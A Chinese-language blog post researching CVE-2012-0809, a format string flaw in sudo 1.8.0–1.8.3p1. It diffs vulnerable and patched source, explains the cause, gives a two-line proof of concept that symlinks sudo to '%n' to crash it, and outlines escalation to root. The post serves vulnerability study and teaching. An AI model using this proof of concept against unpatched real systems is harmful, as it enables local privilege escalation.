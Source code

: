 ```yaml
---
title: CVE-2012-0809 漏洞研究
toc: true
categories: Vulnerability Investigation
abbrlink: dd043b83
date: 2025-01-01 18:53:57
updated: 2025-01-01 18:53:57
---
```


sudo 1.8.0 到 1.8.3p1 的 `sudo_debug` 函数存在格式化字符串漏洞，攻击者拿到靶机的本地用户权限后可借此漏洞进行提权

影响范围

sudo 1.8.0, 1.8.1, 1.8.1p1, 1.8.1p2, 1.8.2, 1.8.3, 1.8.3p1

<!--more-->

## 漏洞分析

sudo 程序是开源的，我们可以通过漏洞公告前后的源码比对定位到漏洞的位置，下以 1.8.3p1 与 1.8.3p2 的源码为例

1.8.3p1

```C
/*
 * Simple debugging/logging.
 */
void
sudo_debug(int level, const char *fmt, ...)
{
    va_list ap;
    char *fmt2;

    if (level > debug_level)
	return;

    /* Backet fmt with program name and a newline to make it a single write */
    easprintf(&fmt2, "%s: %s\n", getprogname(), fmt); //！ vul
    va_start(ap, fmt);
    vfprintf(stderr, fmt2, ap);
    va_end(ap);
    efree(fmt2);
}
```

1.8.3p2

```C
/*
 * Simple debugging/logging.
 */
void
sudo_debug(int level, const char *fmt, ...)
{
    va_list ap;
    char *buf;

    if (level > debug_level)
	return;

    /* Bracket fmt with program name and a newline to make it a single write */
    va_start(ap, fmt);
    evasprintf(&buf, fmt, ap);
    va_end(ap);
    fprintf(stderr, "%s: %s\n", getprogname(), buf);
    efree(buf);
}
```

注意到低版本中地这两行

```C
easprintf(&fmt2, "%s: %s\n", getprogname(), fmt); //！ vul
vfprintf(stderr, fmt2, ap);
```

结合函数名可推断 `getprogname` 函数的返回值是用户可控的，它将被 `easprintf` 函数写入到 fmt2 变量中，并在 `vfprintf` 中作为格式化控制字符串输出到 stderr。若程序名包含了格式化控制字符串的相关关键字，就会导致格式化字符串漏洞

这样的漏洞成因和利用方式实在是让了解 SQL 注入等代码注入技术的人倍感亲切啊

## 漏洞利用

编译安装 sudo 1.8.2 后执行

```sh
ln -s /usr/local/bin/sudo %n
./%n -D9
```

出现

```plaintext
Segmentation fault
```

漏洞验证成功，再通过构造格式化控制字符串控制偏移量即可实现任意读任意写进而提权，详见国外安全研究院撰写的 Exploiting Sudo format string vunerability : VNSECURITY / CLGT TEAM

## 漏洞修复

在漏洞分析的源码比对中能看到修复后的版本直接使用了 `%s: %s\n` 进行格式化控制，避免了本漏洞的产生

## Reference

[NVD - CVE-2012-0809](https://nvd.nist.gov/vuln/detail/CVE-2012-0809)
[CVE - CVE-2012-0809](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0809)
[Sudo - Sudo format string vulnerability](https://www.sudo.ws/security/advisories/sudo_debug/)
[漏洞战争](https://book.douban.com/subject/26830238/)
